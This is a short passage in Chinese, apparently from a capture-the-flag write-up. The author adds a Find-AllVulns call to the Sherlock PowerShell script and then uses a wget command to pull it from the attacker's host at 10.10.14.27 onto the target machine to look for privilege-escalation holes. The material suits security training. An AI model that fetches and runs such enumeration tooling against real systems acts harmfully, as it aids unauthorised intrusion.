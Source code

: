 我将夏洛克存储库克隆到我的本地，并将其移动到 **www/** 文件夹

![Screenshot-2019-10-09-at-23.27.00](img/182e56bcd299980b905badbc8b064737.png)

我修改了文件 **Sherlock.ps1** ，并在 Powershell 脚本的末尾添加了 **Find-Allvulns** ，用

```
nano Sherlock.ps1
```

![Screenshot-2019-10-09-at-23.29.42](img/ca438142169aa9a1b998fc9576bfc37a.png)

然后，我使用以下命令

```
wget "http://10.10.14.27//sherlock/Sherlock.ps1"
```

从科斯塔斯的机器上取文件

![Screenshot-2019-10-09-at-23.28.02](img/500368ae2dbef1c125c5c416362532ff.png)
